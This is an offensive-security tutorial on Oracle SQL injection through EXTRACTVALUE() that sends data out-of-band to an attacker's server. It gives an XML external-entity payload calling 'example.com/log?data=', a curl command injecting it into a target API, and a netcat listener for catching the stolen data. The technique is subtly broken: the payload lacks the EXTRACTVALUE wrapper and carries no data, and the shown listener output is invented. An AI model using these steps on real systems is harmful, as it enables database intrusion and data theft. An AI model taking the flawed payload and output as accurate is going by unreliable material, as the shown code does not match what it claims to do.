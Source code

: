 ```yaml
---
title: 'EXTRACTVALUE SQL Injection: Oracle Out-of-Band Exploit'
description: Explore EXTRACTVALUE for SQL injection in Oracle for effective out-of-band
  data exfiltration.
keywords:
- EXTRACTVALUE
- SQL injection
- Oracle SQL
- Out-of-Band attack
- cybersecurity
- XML parsing
- data exfiltration
---
```


# EXTRACTVALUE

## Context

In the realm of offensive cybersecurity, exploiting SQL injection vulnerabilities is a crucial technique for penetration testers and malicious actors alike. The `EXTRACTVALUE()` function in Oracle SQL can be particularly insidious when harnessed for out-of-band (OOB) data exfiltration. This technique capitalizes on the XML parsing capabilities of `EXTRACTVALUE()` to perform SQL injection attacks, targeting applications that use this function for XML data operations. Understanding and implementing this vulnerability can offer profound insights into vulnerabilities within Oracle SQL databases.

## Theory

The core idea behind this technique is the exploitation of the `EXTRACTVALUE()` function. This function is typically used to extract values from XML documents in the database. However, when unsanitized user input is processed through this function, it can be manipulated to execute arbitrary SQL commands. This behavior can be exploited to perform out-of-band attacks, where data is relayed to an external system controlled by the attacker, bypassing normal database security constraints.

```mermaid
graph TD
    A[SQL Injection] --> B[Oracle SQL]
    B --> C[Out-of-Band]
    C --> D[EXTRACTVALUE()]
```

## Practice

### Identify Vulnerable EXTRACTVALUE Endpoint

To begin exploiting a system using `EXTRACTVALUE()` for out-of-band injection, we must first identify endpoints where this function is used and unprotected by proper input sanitization.

1. **Check for XML Query Usage:**

   Begin by reviewing application behavior related to XML processing. This could involve inspecting API documentation or web application functionalities that mention XML or querying capabilities tied to `EXTRACTVALUE()`.

2. **Test Input Fields:**

   Inject simple payloads into input fields that might use `EXTRACTVALUE()`, monitoring for typical SQL error messages or irregular application behavior. An error or unexpected output can indicate vulnerability.

### Exploit EXTRACTVALUE SQL Injection

Once a vulnerable endpoint is located, the following steps can help in crafting a malicious payload:

1. **Craft Payload:**

   The payload leverages XML and concatenation to induce the database to make an HTTP request to an external server. An example payload may look like this:

   ```xml
   '<!DOCTYPE root [<!ENTITY a SYSTEM "http://example.com/log?data=">]><root>&a;</root>'
   ```

2. **Insert Payload:**

   Place the crafted payload into the vulnerable input field or API parameter. For example, this command uses `curl` to POST data to a web application:

   ```bash
   curl -X POST -d "input=<payload>" http://target.com/api/search
   ```

3. **Monitor for HTTP Requests:**

   Host an exfiltration server on your domain that will capture any OOB calls the vulnerable server makes when processing your payload.

### Monitor for OOB Data Exfiltration

Upon executing the injection, monitoring tools can capture outgoing communications to validate the attack's success.

1. **Set up a Listener:**

   In this scenario, use tools like Netcat to set up a listener on your server:

   ```bash
   nc -lvnp 80
   ```

2. **Capture Connections:**

   You should observe incoming HTTP requests from the target host, signifying successful data exfiltration:

   ```
   Received connection from target host with data: <exfiltrated_data>
   ```

By successfully executing the above steps, an attacker can exfiltrate data from an Oracle SQL database using `EXTRACTVALUE()` in an out-of-band manner, circumventing direct database protections. Always conduct such penetration testing within legal boundaries and with explicit permission from the system owner.